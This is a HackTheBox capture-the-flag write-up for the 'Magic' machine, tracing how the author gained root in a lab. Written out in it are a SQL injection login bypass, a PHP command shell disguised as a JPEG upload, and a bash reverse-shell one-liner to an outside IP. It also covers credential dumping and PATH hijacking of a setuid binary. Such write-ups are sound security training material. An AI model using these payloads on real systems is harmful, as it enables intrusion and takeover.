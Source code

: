 # **HACKTHEBOX – MAGIC WRITEUP**

![](/Magic/logo.png)

# **IP: 10.10.10.185**

# **Enumeration**

First, we will run nmap.
![](/Magic/nmap.png)


The scan shows 2 ports are open. Port 22 for SSH and port 80 for Apache.

I will start an all ports nmap scan ( -p ) just in case there are more open ports.
![](/Magic/nmap-allports.png)

The Apache web server has a wider attack surface, so that is what I am going to enumerate more first.
![](/Magic/homewebsite.png)

Port 80 gives a web page with a bunch of images.

Clicking an image only displays the clicked image.


# **FOOTHOLD**

There is a login button at the bottom left corner that takes me to a php login page.

![](RackMultipart20200925-4-tfagf1_html_890bed27c2b7ae8.png)

Knowing that this web server has PHP files, I am going to start a gobuster for hidden directories and php files.

![](RackMultipart20200925-4-tfagf1_html_dd3bf8e8ad625b7d.png)

There is a file called &quot;upload.php&quot;. Upload functions tend to be exploitable, so I am going to take a closer look at that file. Opening that files takes me back to the login page.

Whenever I meet a login page, I will always try some weak credentials. Sadly, they didn&#39;t work on this login page. So I try some SQL injection, but the page doesn&#39;t allow spaces for whatever reason. I use Burpsuite to intercept my login request and insert the SQL injection payload that way.

Username: &#39;OR 1=1 -- -

Password: doesn&#39;t matter

Press ctrl + u to URL encode and forward it to the server.

![](RackMultipart20200925-4-tfagf1_html_d79bf28b901f838b.png)

We got logged in!

![](RackMultipart20200925-4-tfagf1_html_e069d3f801c47024.png)

Exploiting an upload function is easier using Burpsuite, that is where I am going to insert my payloads.

Uploading a php file returns an error.

![](RackMultipart20200925-4-tfagf1_html_8118e14a52ebef3d.png)

So there is some file type validations going on, we need to bypass it.

There are a few ways to validate a file. It can be through file extension, MIME type or magic bytes. So I am going to modify the request through the repeater tab (ctrl + r) hopefully bypass the file validations.

I upload a jpeg file and put some php code in it with Burpsuite.

![](RackMultipart20200925-4-tfagf1_html_39ba9cee7fee6cfa.png)

This is a simple php code execution script and will run any command through the &quot;cmd&quot; parameter.

The original file name is &quot;lol.jpeg&quot; and I change it to &quot;lol.jpeg.php&quot;.

After that, I send the request to the server but I still get the error.

So I change the filename to &quot;lol.php.jpeg&quot; because there is a chance that apache .htaccess is configured in a weird way and run &quot;php.jpeg&quot; files as php.

![](RackMultipart20200925-4-tfagf1_html_c8fb2ddf01bfcee7.png)

I successfully uploaded the file.

Now we need to access the file for the server to run the php code.

If you go back to the main page and click view image on an image there, the directory where the image is stored is on &quot;/image/uploads/&quot;. So I try to hit &quot;/image/uploads/lol.php.jpeg&quot;.

![](RackMultipart20200925-4-tfagf1_html_9b486c5227cc385d.png)

I successfully access the file. Now I will try injecting a command.

![](RackMultipart20200925-4-tfagf1_html_d635245a792207b2.png)

I run the command &quot;whoami&quot; and it returns www-data. We know for sure we have command execution.

Now we will try a reverse shell payload.

Payload: bash -c &#39;bash -i \&gt;&amp; /dev/tcp/10.10.14.2/9001 0\&gt;&amp;1&#39;

I set up a listener on port 9001, click send and we got a shell as www-data.

![](RackMultipart20200925-4-tfagf1_html_ba5649e21650bd30.png)

# **USER**

Looking at the db.php5 file, we got some credentials.

![](RackMultipart20200925-4-tfagf1_html_fd443e7a915f9fe1.png)

Using those creds to switch user to &quot;theseus&quot; doesn&#39;t work, But we know this is a database credential, we access the database and get more stuff.

But mysql is not installed so I use &quot;mysqldump&quot; instead.

![](RackMultipart20200925-4-tfagf1_html_ab75d2c12b4c6504.png)

Dumping the database &quot;Magic&quot; gives more credentials.

![](RackMultipart20200925-4-tfagf1_html_cda2d65c1ea45a71.png)

Using the creds from the sqldump, I can switch to user &quot;theseus&quot;.

# **ROOT**

After getting the theseus user, I like to do some find commands to see what files belong to the user.

Running this returns a lot of stuff that I am too lazy to look at.

![](RackMultipart20200925-4-tfagf1_html_922d15cc0c484ad6.png)

So I decided to use groups instead.

If we use the groups command, theseus belongs to a group called &quot;users&quot;.

![](RackMultipart20200925-4-tfagf1_html_c11f9107a30e1db4.png)

Running the find command with groups returns only 1 binary and it is a setuid binary.

I try running the binary and it returns a bunch of system information.

I use strace with the &quot;-f&quot; flag to follow forks on the binary to get more information and I use grep to see what commands this binary is executing.

![](RackMultipart20200925-4-tfagf1_html_f214514f62b0b830.png)

The binary doesn&#39;t use absolute path which means we can abuse this.

I write a simple bash reverse shell script called &quot;free&quot;.

![](RackMultipart20200925-4-tfagf1_html_8a7dac40357e8b26.png)

Then I modify the $PATH and add the directory where my &quot;free&quot; script is located and put it before the others.

![](RackMultipart20200925-4-tfagf1_html_5154923a25470609.png)

Then I setup a listener on port 9002 and run the sysinfo binary and we got root!

![](RackMultipart20200925-4-tfagf1_html_d57eef0a8abf27a1.png)
